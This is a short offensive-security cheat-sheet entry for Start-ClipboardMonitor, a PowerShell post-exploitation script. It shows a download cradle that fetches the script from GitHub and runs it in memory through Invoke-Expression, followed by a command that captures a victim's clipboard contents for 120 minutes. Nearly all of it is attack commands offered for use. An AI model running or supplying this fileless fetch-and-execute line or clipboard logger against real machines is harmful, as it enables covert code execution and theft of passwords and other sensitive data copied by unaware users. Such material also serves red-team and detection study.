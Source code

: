 # Start-ClipboardMonitor

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/Misc-PowerShell/master/Start-ClipboardMonitor.ps1')
```

Capture clipboard's content 120 minutes.

```
PS C:\> Start-ClipboardMonitor -CollectionLimit 120
```

---
## References

- [HarmJ0y: Start-ClipboardMonitor](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)